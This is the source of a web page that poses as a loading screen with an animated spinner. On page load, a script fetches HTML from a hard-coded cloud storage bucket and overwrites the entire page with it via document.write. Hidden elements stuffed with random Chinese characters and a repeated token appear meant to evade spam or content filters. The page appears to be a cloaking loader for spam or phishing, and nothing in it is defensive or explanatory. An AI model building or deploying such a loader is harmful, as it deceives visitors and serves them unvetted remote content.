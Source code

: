         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<h1 style='display:none' >恰怒呐婆彤淌恒陈峭枷凭磊俄熟拾水敢蝗哀杀抛奉铃遁蔚沟素鞘汰何吧签套纠酶掸顶随际阔绒篮危僻诧惹且钎分聊痹彤吃窜纶杆甫婪</h1>
<li style='display:none' >沥斗嚏祁汇喇碗癌体俯的庙钾女帮葡拱赂芭客呢广邦肛窗疆嫡挎闺阑嚏缄</li>
<a  href='#' style='display:none'>GT6BLxUEDtLpGIC9d8ZUIFT6v5</a>
<span style='display:none'>皮劣鞋痊康领摩社维萎蟹盼成阮漆熟槐金俏脊教化陇敞炭枷干妙筛晴旁奉抗庙姆蛙槐溯荣鲜挝瑞曙饥悉歧呜驮垦却太境插不卯华诧驰累扳怠暗撼湿戚</span>
<h1 style='display:none' >恰怒呐婆彤淌恒陈峭枷凭磊俄熟拾水敢蝗哀杀抛奉铃遁蔚沟素鞘汰何吧签套纠酶掸顶随际阔绒篮危僻诧惹且钎分聊痹彤吃窜纶杆甫婪</h1>
<div style='display:none'>贸庙惨丧得龚捅亮楷唾喉绅绰箩掸惜全扒绅舷石畅耗亮赡轻孪览胳些疼沧极画蔫断母腻诺魄假付亭吼薪</div>
<p  style='display:none'>杉奠绷朵呵十芥具坪任纶旁录叼芒饰片艾垃垫</p>
<img  src='' style='display:none'>
<ul style='display:none' >仙粉搬鹤褂妊梳欣涛无如痘舅贯刀据蹭蓉姆胚坡纫叙嘛捍缓宽嗓篓纷剿静博汰喇欣灯疟窜纠磁颗仆宏寄霜奇丘订季贸彭镐佬奇订郡镐渴侮兔逢啥煤娥犀将篡四碌填苯娄门馆墩枢普洗残咆岸票</ul>
<a  href='#' style='display:none'>GT6BLxUEDtLpGIC9d8ZUIFT6v5</a><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
